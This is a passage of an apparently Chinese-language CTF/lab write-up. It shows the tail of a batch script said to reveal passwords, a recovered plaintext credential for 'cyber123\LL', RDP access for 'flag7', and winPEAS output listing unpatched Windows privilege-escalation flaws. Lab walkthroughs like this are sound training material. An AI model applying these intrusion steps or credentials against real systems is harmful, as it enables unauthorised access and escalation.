 ```bash

)

if !Guid! EQU !Temp_Guid! (
set /a Gnum=!Gnum!+1
echo !Gnum!>nul
)


)


)

)

del /f /q 0616.txt

```

放到`192.168.12.55`上，运行后就可以获得相应的密码

![image-20231018134424232](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018134424232.png)

```bash
cyber123\LL
Llyoyo123#
```



### flag7

直接`rdp`连接,获取flag

![image-20231018132713252](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018132713252.png)

接下来需要尝试提权，传入`winPEAS.bat`进行扫描

```bash
winPEAS.bat > a.txt
```

扫描到这些漏洞没有修复

```bash
"Microsoft Windows 7 Enterprise   " 
   [i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)
MS11-080 patch is NOT installed XP/SP3,2K3/SP3-afd.sys)
MS16-032 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)
MS11-011 patch is NOT installed XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)
MS10-59 patch is NOT installed 2K8,Vista,7/SP0-Chimichurri)
MS10-21 patch is NOT installed 2K/SP4,XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP0/1/2,7/SP0-Win Kernel)
MS10-092 patch is NOT installed 2K8/SP0/1/2,Vista/SP1/2,7/SP0-Task Sched)
MS10-073 patch is NOT installed XP/SP2/3,2K3/SP2/2K8/SP2,Vista/SP1/2,7/SP0-Keyboard Layout)
MS17-017 patch is NOT installed 2K8/SP2,Vista/SP2,7/SP1-Registry Hive Loading)
MS10-015 patch is NOT installed 2K,XP,2K3,2K8,Vista,7-User Mode to Ring)
MS08-025 patch is NOT installed 2K/SP4,XP/SP2,2K3/SP1/2,2K8/SP0,Vista/SP0/1-win32k.sys)
MS06-049 patch is NOT installed 2K/SP4-ZwQuerySysInfo)
MS06-030 patch is NOT installed 2K,XP/SP2-Mrxsmb.sys)
MS05-055 patch is NOT installed 2K/SP4-APC Data-Free)
MS05-018 patch is NOT installed 2K/SP3/4,XP/SP1/2-CSRSS)
MS04-019 patch is NOT installed 2K/SP2/3/4-Utility Manager)
MS04-011 patch is NOT installed 2K/SP2/3/4,XP/SP0/1-LSASS service BoF)
MS04-020 patch is NOT installed 2K/SP4-POSIX)
MS14-040 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-afd.sys Dangling Pointer)
MS16-016 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-WebDAV to Address)
```